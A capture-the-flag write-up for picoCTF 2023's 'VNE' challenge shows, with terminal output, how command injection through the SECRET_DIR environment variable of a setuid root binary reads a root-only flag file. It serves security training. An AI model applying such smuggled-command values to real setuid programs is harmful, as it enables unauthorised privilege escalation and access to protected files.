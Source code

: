 # VNE

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2023, Binary Exploitation, bash, env, injection
Author: JUNIAS BONOU

Description:
We've got a binary that can list directories as root, try it out !!

ssh to saturn.picoctf.net:61680, and run the binary named "bin" once connected. 
Login as ctf-player with the password, d8819d45
 
Hints:
1. Have you checked the content of the /root folder
2. Find a way to add more instructions to the ls
```
Challenge link: [https://play.picoctf.org/practice/challenge/387](https://play.picoctf.org/practice/challenge/387)

## Solution

### Connect to the server

We start by connecting to the server
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/VNE]
└─$ ssh -p 61680 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:61680 ([13.59.203.175]:61680)' can't be established.
ED25519 key fingerprint is SHA256:HPhB80jvwzwsykN/XSDUt9zGDYpkIHHd9PMoDlkzWpw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:61680' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ 
```

And then we look for the `bin` binary mentioned in the challenge description
```bash
ctf-player@pico-chall$ ls -la
total 24
drwxr-xr-x 1 ctf-player ctf-player    20 Nov  5 08:46 .
drwxr-xr-x 1 root       root          24 Aug  4 22:04 ..
drwx------ 2 ctf-player ctf-player    34 Nov  5 08:46 .cache
-rw-r--r-- 1 root       root          67 Aug  4 22:05 .profile
-rwsr-xr-x 1 root       root       18752 Aug  4 22:05 bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ 
```
Note that the `bin` binary has the [setuid](https://en.wikipedia.org/wiki/Setuid) bit set!

Ok, let's set the `SECRET_DIR` [environment variable](https://en.wikipedia.org/wiki/Environment_variable) to `/root` as suggested in the hints.

### Set the environment variable

```bash
ctf-player@pico-chall$ SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ export SECRET_DIR
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
```
We can list any directory of our choice as root.  
The program probable does something like `ls $SECRET_DIR`.  
Let's try to verify this
```bash
ctf-player@pico-chall$ SECRET_DIR="-l /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of -l /root/flag.txt as root: 
-rw------- 1 root root 41 Aug  4 22:05 /root/flag.txt
```
Great, now we can [inject additional commands](https://en.wikipedia.org/wiki/Code_injection) in the variable to get the flag as suggested in the hints.

### Get the flag

Finally, we append a `cat` command and an `echo` command to read the output more easily
```bash
ctf-player@pico-chall$ SECRET_DIR="-l /root/flag.txt; cat /root/flag.txt; echo"
ctf-player@pico-chall$ ./bin
Listing the content of -l /root/flag.txt; cat /root/flag.txt; echo as root: 
-rw------- 1 root root 41 Aug  4 22:05 /root/flag.txt
picoCTF{<REDACTED>}
ctf-player@pico-chall$ 
```

And there we have the flag.

For additional information, please see the references below.

## References

- [Wikipedia - Code injection](https://en.wikipedia.org/wiki/Code_injection)
- [Wikipedia - Environment variable](https://en.wikipedia.org/wiki/Environment_variable)
- [Wikipedia - Setuid](https://en.wikipedia.org/wiki/Setuid)
